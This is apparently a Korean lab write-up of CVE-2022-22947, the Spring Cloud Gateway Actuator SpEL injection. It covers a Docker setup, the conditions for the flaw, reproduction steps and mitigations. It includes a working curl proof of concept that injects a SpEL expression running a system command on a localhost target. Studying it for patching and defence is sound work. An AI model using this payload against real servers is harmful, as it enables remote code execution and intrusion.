




# Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

## 취약점 요약

Spring Cloud Gateway는 Spring WebFlux 기반으로 API Gateway를 구축하기 위한 라이브러리이다. CVE-2022-22947은 Spring Cloud Gateway에서 Gateway Actuator 엔드포인트가 활성화되어 있고, 외부에 노출되어 있으며, 인증 없이 접근 가능한 경우 발생하는 SpEL Code Injection 취약점이다.

공격자는 Gateway Actuator API를 통해 악의적으로 조작된 라우트 설정을 등록하고, Gateway refresh 요청을 발생시켜 서버 측에서 임의 명령 실행을 유도할 수 있다.

- **CVE 번호:** CVE-2022-22947
- **취약점 유형:** SpEL Code Injection
- **영향:** Remote Code Execution, RCE
- **대상 제품:** Spring Cloud Gateway
- **실습 버전:** Spring Cloud Gateway 3.1.0
- **위험도:** Critical

## 환경 구성

본 실습 환경은 Docker Compose를 이용하여 구성하였다. 취약한 Spring Cloud Gateway 애플리케이션은 아래 명령어 하나로 빌드 및 실행된다.

```bash
docker compose up -d --build
```

컨테이너 실행 상태를 확인한다.

```bash
docker compose ps
```

서버가 정상적으로 실행되었는지 확인한다.

```bash
curl -i http://localhost:8080
```

Gateway Actuator 엔드포인트가 노출되어 있는지 확인한다.

```bash
curl -i http://localhost:8080/actuator/gateway/routes
```

정상적으로 구성되었다면 다음과 같이 `200 OK` 응답과 기본 라우트 정보가 출력된다.



## 취약 조건

이 취약점은 다음 조건을 만족할 때 재현된다.

- **취약 버전 사용:** Spring Cloud Gateway 3.1.0 또는 3.0.0~3.0.6 사용
- **Actuator 사용:** Spring Boot Actuator가 애플리케이션에 포함됨
- **Gateway Actuator 활성화:** `management.endpoint.gateway.enabled=true`
- **엔드포인트 노출:** `/actuator/gateway/**` 엔드포인트가 외부에서 접근 가능함
- **인증 미적용:** Actuator 엔드포인트에 인증 및 접근 제어가 적용되어 있지 않음

Gateway Actuator endpoint가 enabled, exposed, unsecured 상태일 때 원격 공격자는 조작된 요청을 통해 임의 코드 실행을 유발할 수 있다.

취약점의 핵심 원인은 일부 Gateway Filter 설정 값이 SpEL(Spring Expression Language) 표현식으로 평가될 수 있다는 점이다. 안전하지 않은 입력값이 표현식 평가 과정에 전달되면 공격자는 `#{...}` 형태의 표현식을 통해 서버 측 명령 실행을 유도할 수 있다.

## 재현 절차

### 1. 악성 라우트 추가

`/actuator/gateway/routes/hacktest` 엔드포인트로 POST 요청을 보내 악성 SpEL 표현식이 포함된 라우트를 추가한다. 본 실습에서는 `AddResponseHeader` 필터의 `value` 값에 `id` 명령을 실행하는 SpEL 표현식을 삽입하였다.



### 2. Gateway Refresh 요청

등록한 라우트를 Gateway 설정에 반영하기 위해 `/actuator/gateway/refresh` 엔드포인트로 POST 요청을 보낸다. 이 단계에서 악성 SpEL 표현식이 평가된다.



### 3. 실행 결과 조회

`/actuator/gateway/routes/hacktest` 엔드포인트로 GET 요청을 보내 등록된 라우트 정보를 조회한다.



### 4. 실습 후 라우트 삭제

실습 후에는 추가한 악성 라우트를 삭제한다.

```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0
Connection: close
```

삭제 후 Gateway 설정을 다시 갱신한다.

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

## PoC 코드

아래는 curl을 이용한 전체 PoC 코드이다.

```bash
curl -i -X POST 'http://localhost:8080/actuator/gateway/routes/hacktest' \
  -H 'Content-Type: application/json' \
  --data-binary '{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}'

curl -i -X POST 'http://localhost:8080/actuator/gateway/refresh' \
  -H 'Content-Type: application/x-www-form-urlencoded'

curl -i 'http://localhost:8080/actuator/gateway/routes/hacktest'

curl -i -X DELETE 'http://localhost:8080/actuator/gateway/routes/hacktest'

curl -i -X POST 'http://localhost:8080/actuator/gateway/refresh' \
  -H 'Content-Type: application/x-www-form-urlencoded'
```

## 대응 방안

### 1. 취약 버전 업그레이드

Spring Cloud Gateway를 취약하지 않은 버전으로 업그레이드한다.

- Spring Cloud Gateway 3.1.x 사용 시 3.1.1 이상으로 업그레이드
- Spring Cloud Gateway 3.0.x 사용 시 3.0.7 이상으로 업그레이드

### 2. Gateway Actuator 비활성화

Gateway Actuator endpoint가 필요하지 않다면 비활성화한다.

```yaml
management:
  endpoint:
    gateway:
      enabled: false
```

### 3. Actuator Endpoint 노출 제한

운영 환경에서는 Actuator endpoint 전체를 외부에 노출하지 않고 필요한 항목만 제한적으로 노출해야 한다.

```yaml
management:
  endpoints:
    web:
      exposure:
        include: health,info
```

### 4. 인증 및 접근 제어 적용

Actuator endpoint가 필요한 경우 Spring Security를 이용하여 인증 및 인가를 적용해야 한다.

### 5. 네트워크 접근 제한

`/actuator/**` 경로는 외부 인터넷에 직접 노출하지 않고 내부망, 관리자 IP, VPN 환경에서만 접근 가능하도록 제한해야 한다.

## 참고 자료

- https://tanzu.vmware.com/security/cve-2022-22947
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/
